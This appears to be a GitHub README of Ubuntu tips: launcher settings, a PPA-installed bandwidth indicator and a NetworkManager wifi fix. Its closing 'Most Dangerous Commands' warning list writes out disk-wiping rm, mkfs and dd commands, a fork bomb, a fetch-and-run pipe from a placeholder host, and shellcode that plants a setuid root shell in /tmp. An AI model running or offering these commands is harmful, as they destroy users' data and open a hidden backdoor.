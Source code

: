 # Linux Stuff

## Move Unity Launcher (Icon Bar)

```gsettings set com.canonical.Unity.Launcher launcher-position Bottom```

```gsettings set com.canonical.Unity.Launcher launcher-position Left```

## Bandwidth Monitor (Indicator Netspeed - Unity)

```sudo apt-get install dconf-editor```

```sudo apt-add-repository ppa:fixnix/netspeed```

```sudo apt-get update```

```sudo apt-get install indicator-netspeed-unity```

## Ubuntu 17.04
### If Wifi is not connecting

#### Edit the file /etc/NetworkManager/NetworkManager.conf

```sudo su```

```pico /etc/NetworkManager/NetworkManager.conf```

#### Add the following code at the end of this file

```[device]
wifi.scan-rand-mac-address=no```

#### After saving simply restart the network

```sudo service network-manager restart```


## Most Dangerous Commands For Ubuntu

```rm command in Linux is used to delete files.```

```rm -r command deletes the folder recursively, even the empty folder.```

```rm -f command removes ‘Read only File’ without asking.```

```rm -rf / : Force deletion of everything in root directory.```

```rm -rf * : Force deletion of everything in current directory/working directory.```

```rm -rf . : Force deletion of current folder and sub folders.```

```:(){:|:&};:```

```mv /home/user/* /dev/null```

```wget http://malicious_source -O- | sh```

```mkfs.ext3 /dev/sda```

```dd if=/dev/random of=/dev/sda```

```char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;```
